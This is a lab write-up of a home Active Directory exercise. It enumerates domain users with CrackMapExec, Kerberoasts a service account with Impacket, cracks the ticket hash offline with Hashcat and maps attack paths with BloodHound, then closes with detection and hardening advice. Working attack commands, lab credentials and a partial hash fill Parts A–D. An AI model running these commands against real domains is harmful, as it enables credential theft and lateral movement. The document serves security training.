








# Exercise 15 — Active Directory Enumeration & Kerberoasting

**Date:** 25/03/2026
**Category:** Active Directory / Credential Access
**Tools:** CrackMapExec, Impacket, Hashcat, BloodHound, Neo4j
**Attacker:** Kali Linux — 192.168.56.102
**Target:** Windows Server 2022 Domain Controller — 192.168.56.105 (lab.local)

---

## Objective
Build an Active Directory lab environment from scratch, enumerate the
domain using a low-privileged user account, extract a Kerberos service
ticket hash via Kerberoasting, crack it offline with Hashcat, and map
the domain attack surface using BloodHound.

---

## Background
Active Directory is the identity and access backbone of virtually every
corporate Windows environment. Over 90% of Fortune 500 companies run AD,
making it the single most targeted system in enterprise attacks. A SOC
analyst will encounter AD-based attacks daily — understanding how they
work from the attacker's perspective is essential for effective detection
and response.

**Kerberoasting** is one of the most common AD attack techniques. Any
domain user can request a Kerberos service ticket for any account that
has a Service Principal Name (SPN) registered. The ticket is encrypted
with the service account's password hash — meaning it can be taken
offline and cracked without generating further network traffic or
touching the target account again.

This exercise covers MITRE ATT&CK techniques:
- **T1087.002** — Account Discovery: Domain Account
- **T1558.003** — Steal or Forge Kerberos Tickets: Kerberoasting
- **T1110.002** — Brute Force: Password Cracking

---

## Lab Setup

A Windows Server 2022 VM was built and configured as a Domain Controller
for a new forest: `lab.local`. The following was configured on the DC
before the attacks began:

**Domain users created:**

| Username | Password | Group |
|---|---|---|
| jsmith | Password123! | IT-Staff |
| sjones | Summer2024! | IT-Staff |
| svc-backup | Backup2024! | — (isolated service account) |

**Service Principal Name registered on svc-backup:**
```cmd
setspn -A HTTP/dc01.lab.local svc-backup
```

This SPN registration makes `svc-backup` vulnerable to Kerberoasting —
any domain user can now request a service ticket encrypted with its
password hash.

**Kali was configured to use the DC as DNS:**
```bash
sudo nano /etc/resolv.conf
# Added: nameserver 192.168.56.105
```

Tools installed on Kali for this exercise:
```bash
sudo apt install bloodhound neo4j crackmapexec impacket-scripts ntpsec-ntpdate -y
```

### Screenshot — Lab Setup: DC and Kali Running, DNS and Connectivity Verified


### Screenshot — AD Tools Installed on Kali


---

## Part A — Domain Enumeration with CrackMapExec

CrackMapExec was used to authenticate to the DC and enumerate all domain
users using jsmith's credentials:
```bash
crackmapexec smb 192.168.56.105 -u jsmith -p 'Password123!' --users
```

| Flag | Meaning |
|---|---|
| `smb` | Protocol — SMB on port 445 |
| `-u jsmith` | Username to authenticate with |
| `-p 'Password123!'` | Password |
| `--users` | Enumerate all domain users |

**Result:** Authentication successful. All domain accounts returned:
`svc-backup`, `sjones`, `jsmith`, `krbtgt`, `Guest`, `Administrator`.

DC hostname identified as `WIN-SA1M7528EHL`, domain confirmed as
`lab.local`.

### Screenshot — CrackMapExec Domain Enumeration


---

## Part B — Kerberoasting with Impacket

With valid domain credentials, `impacket-GetUserSPNs` was used to
request service tickets for all SPN-enabled accounts:
```bash
impacket-GetUserSPNs lab.local/jsmith:'Password123!' -dc-ip 192.168.56.105 -request
```

| Flag | Meaning |
|---|---|
| `lab.local/jsmith` | Domain and username |
| `'Password123!'` | Password |
| `-dc-ip 192.168.56.105` | Domain Controller IP |
| `-request` | Request the actual ticket (outputs crackable hash) |

**Troubleshooting — clock skew:** Kerberos requires clocks to be within
5 minutes of each other. The DC and Kali had a significant time
difference causing `KRB_AP_ERR_SKEW` errors. Fixed by syncing Kali's
clock directly from the DC:
```bash
sudo /usr/sbin/ntpdate 192.168.56.105
```

**Result:** `svc-backup` identified as Kerberoastable (SPN:
`HTTP/dc01.lab.local`). TGS-REP hash extracted:
```
$krb5tgs$23$*svc-backup$LAB.LOCAL$lab.local/svc-backup*$126ba61a...
```

### Screenshot — Kerberos Hash Extracted for svc-backup


---

## Part C — Offline Hash Cracking with Hashcat

The TGS-REP hash was saved to a file and cracked offline — no further
interaction with the DC required:
```bash
hashcat -m 13100 -a 0 ~/svc-backup.hash ~/ad-passwords.txt
```

| Flag | Meaning |
|---|---|
| `-m 13100` | Hash mode — Kerberos 5 TGS-REP (etype 23) |
| `-a 0` | Attack mode — dictionary |
| `~/svc-backup.hash` | Target hash file |
| `~/ad-passwords.txt` | Wordlist |

**Result: `svc-backup:Backup2024!` — cracked in under 1 second.**

This is the core danger of Kerberoasting — the entire attack from
ticket request to plaintext password happens entirely on the attacker's
machine, generating minimal logs and no account lockouts.

### Screenshot — svc-backup Hash Cracked


---

## Part D — BloodHound AD Visualisation

BloodHound was used to map the full domain attack surface and visualise
relationships between users, groups, and computers.

**Setup:**
```bash
sudo neo4j start
/usr/bin/bloodhound --no-sandbox &
```

Data was collected using the BloodHound Python collector:
```bash
bloodhound-python -u jsmith -p 'Password123!' -d lab.local \
  -dc WIN-SA1M7528EHL.lab.local -ns 192.168.56.105 -c all
```

| Flag | Meaning |
|---|---|
| `-d lab.local` | Target domain |
| `-dc` | Domain controller FQDN |
| `-ns` | DNS server IP |
| `-c all` | Collect all data — users, groups, GPOs, ACLs, computers |

**Result:** 7 users, 53 groups, 2 GPOs, 1 computer enumerated and
imported into BloodHound.

A custom Cypher query was used to identify Kerberoastable accounts:
```
MATCH (u:User) WHERE u.hasspn=true RETURN u
```

**Result:** `svc-backup` returned as the only Kerberoastable account —
confirming the SPN configuration and matching the hash already cracked.

### Screenshot — BloodHound Domain Overview


### Screenshot — svc-backup Identified as Kerberoastable


### Screenshot — Administrator Account Node


---

## Attack Chain Summary
```
Valid domain credentials (jsmith:Password123!)
    → CrackMapExec enumerates all domain users via SMB
        → impacket-GetUserSPNs identifies svc-backup with SPN
            → TGS-REP hash extracted — no special privileges required
                → Hashcat cracks hash offline in <1 second
                    → svc-backup:Backup2024! — full service account compromise
                        → BloodHound maps further attack paths from compromised account
```

---

## Real-World Relevance

**Kerberoasting requires only a standard domain account.** Any employee
with a domain login can execute this attack against misconfigured service
accounts. No admin privileges, no special tools installed on the target,
no exploitation of vulnerabilities — just standard Kerberos protocol
behaviour being abused.

**Service accounts are high-value targets.** They often have elevated
privileges, are rarely monitored, and their passwords are rarely rotated.
A compromised service account is frequently the stepping stone to Domain
Admin in real-world intrusions.

**The attack leaves minimal logs.** Requesting a Kerberos service ticket
is normal domain activity — it only becomes suspicious at volume or from
unexpected sources. Without baseline monitoring, a single Kerberoasting
attempt is nearly invisible.

**BloodHound is used by both attackers and defenders.** Red teams use it
to find the shortest path to Domain Admin. Blue teams use it to identify
and remediate attack paths before they're exploited. Understanding both
perspectives is the core of modern AD security.

**MITRE ATT&CK T1558.003** — Kerberoasting is documented as a technique
used by numerous APT groups including APT29, FIN7, and others in
real-world campaigns.

---

## Recommendation
- Use **Group Managed Service Accounts (gMSA)** for service accounts —
  passwords are 120 characters, automatically rotated, and cannot be
  Kerberoasted
- Enforce **minimum 25-character passwords** on any account with an SPN
  registered — makes offline cracking computationally infeasible
- **Audit SPN registrations regularly** — any account with an SPN that
  doesn't require one is an unnecessary attack surface. Query with:
  `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
- **Monitor Event ID 4769** (Kerberos Service Ticket Request) — alert on
  RC4 encryption type (0x17) requests, which is the etype 23 used in
  Kerberoasting. Modern environments should use AES encryption
- **Deploy BloodHound defensively** — run it quarterly to identify
  attack paths before attackers do
